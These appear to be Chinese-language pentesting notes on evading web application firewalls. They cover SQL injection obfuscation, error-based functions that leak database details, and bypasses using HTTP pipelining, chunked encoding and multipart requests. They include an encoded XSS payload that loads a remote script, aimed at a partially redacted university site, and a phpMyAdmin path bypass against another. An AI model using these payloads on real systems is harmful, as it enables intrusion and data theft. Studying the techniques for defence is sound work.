



# 绕 waf 总结

---

## Reference
- [技术讨论 | 在HTTP协议层面绕过WAF](https://www.freebuf.com/news/193659.html)
- [利用分块传输吊打所有WAF](https://www.anquanke.com/post/id/169738)
- [编写Burp分块传输插件绕WAF](http://gv7.me/articles/2019/chunked-coding-converter/)
- WAF绕过思路 [png](../文件/WAF绕过思路.png)

---

## CDN 绕过

1. 域名查询-不是所有域名都解析到CDN说不定有漏网之鱼
2. DNS历史解析记录查询

## 路径限制绕过

比如 WAF 会对访问敏感路径加以限制,但是加上参数可以绕过。

比如想访问 `xxx.██.edu.cn/phpmyadmin/` 会被拦截,访问 `xxx.██.edu.cn/phpmyadmin/?id=1` 可以绕过

## 正则匹配绕过

**关键字替换**

1. AND 等价于 &&
2. OR 等价于 ||
3. = 等价于 like
4. + 代替 空格
5. sleep() 等价于 benchmark()
6. mid()substring() 等价于 substr()

```
最直白的 payload 类似 `<script> alert('xss'); </script>`,但是你可以用 `<script src=来远程加载脚本,并绕过防护`

`http://██.██.edu.cn/██/██?search=naive%22%3E%20%3Cmeta%20name=%22referrer%22%20content=%22never%22%20%3E%20%3Cscript%20src=%22https://cdn.jsdelivr.net/gh/TomAPU/xsstest/test.js%22%3E%3C/script%3E%20%3C!--`
```

**注释符绕过**

1. `/**/` 与 `/*!*/` ,还可以代替空格
2. `select/*@a?v|ddd--n*/xxxxx/*@a?v|ddd--n*/from/*a?v|ddd--n*/xxxx`由于waf解析注释符耗费性能，因此这种方法结合fuzz能找到漏网之鱼
3. emoji 表情
4. -- 与 #

```
Union 注入时 `union select 1 from 2` 替换成 `union/*fuckyou//*a*//*!select*/1/*fuckyou//*a*//*!from*/2`

order by 测试时直接把空格换成 `/**//**/`
```

**空白符绕过**

1. 正则表达式空白符: %09,%0a,%0b,%0D,%20
2. mysql空白符: %09,0A,%0b,%0D,%20,%0C,%A0,/**/

**浮点数词法解析**

1. select * from xxx where id=8E0union select 1,2,3,4,5,6,7E0from xxxx
2. select * from xxx where id=8.0union select 1,2,3,4,5,6,7.0from xxxx
3. select * from xxx where id=8\Nunion select 1,2,3,4,5,6,7 \Nfrom xxxx

**利用不常用报错函数绕过**

1. select extractvalue(1,concat(1,user()));
2. select updatexml(1,concat(1,user()),1);
3. select exp(~(select * from(select user())a));

## 分段传输

**利用 pipline 绕过**
- **原理**

    http 协议是由 tcp 协议封装而来，当浏览器发起一个 http 请求时，浏览器先和服务器建立起连接 tcp 连接，然后发送 http 数据包（即我们用 burpsuite 截获的数据），其中包含了一个 Connection 字段，一般值为 close，apache 等容器根据这个字段决定是保持该tcp连接或是断开。当发送的内容太大，超过一个 http 包容量，需要分多次发送时，值会变成 keep-alive，即本次发起的 http 请求所建立的 tcp 连接不断开，直到所发送内容结束 Connection 为 close 为止。

- **测试**

    关闭 burp 的 Repeater 的 Content-Length 自动更新，如图所示，点击红圈的 Repeater 在下拉选项中取消 update Content-Length 选中。这一步至关重要！！！
    

    burp 截获 post 提交

    `id=1 and 1=1` 会被 waf，将数据包复制一遍，如图

    

    接着修改第一个数据包的数据部分，即将 `id=1+and+1%3D1` 修改为正常内容 `id=1`，再将数据包的 Content-Length 的值设置为修改后的 `id=1` 的字符长度即 4，最后将 Connection 字段值设为 keep-alive。提交后如图所示，会返回两个响应包，分别对应两个请求。

    

    注意：从结果看，第一个正常数据包返回了正确内容，第二个包含有效载荷的数据包被某狗 waf 拦截，说明两数据包都能到达服务器，在面对其他 waf 时有可能可以绕过。无论如何这仍是一种可学习了解的绕过方法，且可以和接下来的方法进行组合使用绕过。

**分块编码传输绕过**
- **原理**

    在头部加入 Transfer-Encoding: chunked 之后，就代表这个报文采用了分块编码。这时，post 请求报文中的数据部分需要改为用一系列分块来传输。每个分块包含十六进制的长度值和数据，长度值独占一行，长度不包括它结尾的，也不包括分块数据结尾的，且最后需要用 0 独占一行表示结束。

    开启上个实验中已关闭的 content-length 自动更新。给 post 请求包加入 Transfer-Encoding: chunked 后，将数据部分 `id=1 and 1=1` 进行分块编码（注意长度值必须为十六进制数），每一块里长度值独占一行，数据占一行如图所示。
    

    注意：分块编码传输需要将关键字 and,or,select ,union 等关键字拆开编码，不然仍然会被 waf 拦截。编码过程中长度需包括空格的长度。最后用 0 表示编码结束，并在 0 后空两行表示数据包结束，不然点击提交按钮后会看到一直处于 waiting 状态。

**利用协议未覆盖进行绕过**
- **原理**

    HTTP 头里的 Content-Type 一般有 application/x-www-form-urlencoded，multipart/form-data，text/plain 三种，其中 multipart/form-data 表示数据被编码为一条消息，页上的每个控件对应消息中的一个部分。所以，当 waf 没有规则匹配该协议传输的数据时可被绕过。

    将头部 Content-Type 改为 `multipart/form-data; boundary=69` 然后设置分割符内的 Content-Disposition 的 name 为要传参数的名称。数据部分则放在分割结束符上一行。
    

    由于是正常数据提交，所以从图可知数据是能被 apache 容器正确解析的，尝试 `1 and 1=1` 也会被某狗 waf 拦截，但如果其他 waf 没有规则拦截这种方式提交的数据包，那么同样能绕过。

    一般绕waf往往需要多种方式结合使用，示例中，只需将数据部分 `1 and 1=1` 用一个小数点 `”.”` 当作连接符即 `1.and 1=1` 就可以起到绕过作用。当然，这只是用小数点当连接符所起的作用而已。

**组合使用**

在协议未覆盖的数据包中加入 Transfer-Encoding: chunked ，然后将数据部分全部进行分块编码，如图所示(数据部分为 `1 and 1=1` )。


注意：第2块，第3块，第7块，和第8块。

第2块中需要满足
```
长度值
空行
Content-Disposition: name="id"
空行
```

这种形式，且长度值要将两个空行的长度计算在内（空行长度为2）。

第3块，即数据开始部分需满足
```
长度值
空行
数据
```

形式，且需将空行计算在内。

第7块即分割边界结束部分，需满足
```
长度值
空行
分割结束符
空行
```

形式，且计算空行长度在内。

第8块需满足
```
0空格
空行
空行
```
形式。如果不同时满足这四块的形式要求，payload 将不会生效。

**使用注释扰乱分块数据包**

通过 [RFC7230](https://tools.ietf.org/html/rfc7230) 阅读规范发现分块传输可以在长度标识处加上分号 `“;”` 作为注释，如：
```
9;kkkkk
1234567=1
4;ooo=222
2345
0
(两个换行)
```
